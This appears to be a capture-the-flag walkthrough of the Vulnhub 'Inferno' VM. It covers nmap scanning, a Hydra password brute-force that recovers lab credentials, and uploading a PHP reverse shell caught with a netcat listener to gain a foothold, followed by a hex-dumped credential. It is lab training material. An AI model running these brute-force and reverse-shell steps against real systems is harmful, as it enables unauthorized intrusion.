

# CTF Inferno
## Discovery
Link to download the vm: [Vulnhub](https://www.vulnhub.com/entry/inferno-11,603/)
Info: `There are two flags`
### netdiscover
`sudo netdiscover -r 192.168.0.0/16`

IP: `192.168.0.22`
### nmap
`sudo nmap -sV -p- 192.168.0.22`

Ports:
22: ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80: http Apache httpd 2.4.38 ((Debian))
### Port 80

I found nothing with the inspector.
let\'s translate the text and run a dirbuster.
#### Translate
| Corsica                                   | English                                  |
|:------------------------------------------|:-----------------------------------------|
|Oh quanto parve a me gran maraviglia       |Oh how wonderful it seemed to me when I   |
|quand\'io vidi tre facce a la sua testa!    |saw three faces on his head!              |
|L\'una dinanzi, e quella era vermiglia;     |One in front, and that was red;           |
|                                           |                                          |  
|l\'altr\'eran due, che s\'aggiugnieno a questa|the other was two, which are added to this|
|sovresso \'l mezzo di ciascuna spalla,      |over the middle of each shoulder,         |
|e se\' giugnieno al loco de la cresta       |and they reached the place of the ridge   |

### Directory listening
`sudo dirbuster`

Let\'s go to http://192.168.0.22/inferno
I\'m stuck with a login portal

### Apache/2.4.38
The version of Apache seem outdated.
Exploit databases:
[https://www.exploit-db.com/exploits/46676](https://www.exploit-db.com/exploits/46676)
hmmm, thois exploit is  not for now, I have to upload the php file on the webserver first.
And them I will be able to execute commands as root.
`Local Privilege Escalation `

### Google image
I put the image in google image:
Title: `Divine Comedy Illustrated by Botticelli`
Botticelli, Sandro, 1485, map of hell,

But I still can\'t login.

### Install cewl
I have some text but even in english or french I don\'t understand, they should be usefull.
Source: [Null-byte](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-5-creating-custom-wordlist-with-cewl-0158855/)
He use `cewl`. 
It\'s not available with pacman or AUR so I will search in on GitHub.
GitHub: [CeWL](https://github.com/digininja/CeWL)
I also need ruby: `sudo pacman -S ruby`
And bundle: `gem install bundler`
Warning: `You don't have /home/peanutstick/.local/share/gem/ruby/3.0.0/bin in your PATH,gem executables will not run.`
Add to path: `export PATH=$PATH:~/.local/share/gem/ruby/3.0.0/bin`
Make it persitent:
In /etc/profil add this in the good section.
`append_path '/home/peanutstick/.local/share/gem/ruby/3.0.0/bin'`
```
cd /usr/share
git clone https://github.com/digininja/CeWL.git
cd Cewl
bundle install
```
It\'s borring to move in the directory and type ruby cewl.rb, so I will add and alias.
~/.zshrc
`alias cewl="ruby /usr/share/Cewl/cewl.rb"`

### Create the wordlist
`cewl -w infernowordlist.txt http://192.168.0.22`


## Exploit

### Dictionary attack on Basic HTTP Authentication
Source [https://github.com/gnebbia/hydra_notes](https://github.com/gnebbia/hydra_notes)
Now let\'s try:
Nop: `hydra -L infernowordlist.txt -P infernowordlist.txt -s 80 -f 192.168.0.22 http-get /inferno`
Nop: `hydra -L infernowordlist.txt -P rockyou.txt -s 80 -f 192.168.0.22 http-get /inferno`
Nop: `hydra -L rockyou.txt -P infernowordlist.txt -s 80 -f 192.168.0.22 http-get /inferno`

My wordlist is useless?! I just spend 1 hour to install Cewl and I don't need it.
Don\'t know: `hydra -L rockyou.txt -P rockyou.txt -s 80 -f 192.168.0.22 http-get /inferno`
It's take too much time so I will try other users:
Yep: `hydra -l admin -P rockyou.txt -s 80 -f 192.168.0.22 http-get /inferno`

User: `admin`
Password: `dante1`

I can browser the files of the web site, I have to found a way to upload a file.

### Try to upload a file
The exploits on exploit db dosen\'t work.
I will read more files to see if I can find something intresting.
I can upload files here:
 `/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/`
So I download a revers shell for pentestmonkey: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
I set the $IP = '192.168.0.16' (it\'s my machine)
and I upload it.
Them I listen with netcat: `netcat -lvp 1234`.
And got to `http://192.168.0.22/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/reversshell.php`
And I\'m in!

I\'m using grep to see files with .txt, I found 2 binaries in download.
`grep ".txt" . -R`

Oh I forgot... this command is use to search things in files.
I can try with the word `flag`.

I can\'t open them it's only binaries.
I will see what is in the directory:
`ls -la`
I found an hiden flag: `.download.dat`
`cat .download.dat`
```
c2 ab 4f 72 20 73 65 e2 80 99 20 74 75 20 71 75 65 6c 20 56 69 72 67 69 6c 69 
6f 20 65 20 71 75 65 6c 6c 61 20 66 6f 6e 74 65 0a 63 68 65 20 73 70 61 6e 64 
69 20 64 69 20 70 61 72 6c 61 72 20 73 c3 ac 20 6c 61 72 67 6f 20 66 69 75 6d 
65 3f c2 bb 2c 0a 72 69 73 70 75 6f 73 e2 80 99 69 6f 20 6c 75 69 20 63 6f 6e 
20 76 65 72 67 6f 67 6e 6f 73 61 20 66 72 6f 6e 74 65 2e 0a 0a c2 ab 4f 20 64 
65 20 6c 69 20 61 6c 74 72 69 20 70 6f 65 74 69 20 6f 6e 6f 72 65 20 65 20 6c 
75 6d 65 2c 0a 76 61 67 6c 69 61 6d 69 20 e2 80 99 6c 20 6c 75 6e 67 6f 20 73 
74 75 64 69 6f 20 65 20 e2 80 99 6c 20 67 72 61 6e 64 65 20 61 6d 6f 72 65 0a 
63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 63 65 72 63 61 72 20 6c 6f 
20 74 75 6f 20 76 6f 6c 75 6d 65 2e 0a 0a 54 75 20 73 65 e2 80 99 20 6c 6f 20 
6d 69 6f 20 6d 61 65 73 74 72 6f 20 65 20 e2 80 99 6c 20 6d 69 6f 20 61 75 74 
6f 72 65 2c 0a 74 75 20 73 65 e2 80 99 20 73 6f 6c 6f 20 63 6f 6c 75 69 20 64 
61 20 63 75 e2 80 99 20 69 6f 20 74 6f 6c 73 69 0a 6c 6f 20 62 65 6c 6c 6f 20 
73 74 69 6c 6f 20 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 6f 6e 6f 
72 65 2e 0a 0a 56 65 64 69 20 6c 61 20 62 65 73 74 69 61 20 70 65 72 20 63 75 
e2 80 99 20 69 6f 20 6d 69 20 76 6f 6c 73 69 3b 0a 61 69 75 74 61 6d 69 20 64 
61 20 6c 65 69 2c 20 66 61 6d 6f 73 6f 20 73 61 67 67 69 6f 2c 0a 63 68 e2 80 
99 65 6c 6c 61 20 6d 69 20 66 61 20 74 72 65 6d 61 72 20 6c 65 20 76 65 6e 65 
20 65 20 69 20 70 6f 6c 73 69 c2 bb 2e 0a 0a 64 61 6e 74 65 3a 56 31 72 67 31 
6c 31 30 68 33 6c 70 6d 33 0a$
```
If I decode it I get that:
```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».
```
I have to do something with it.


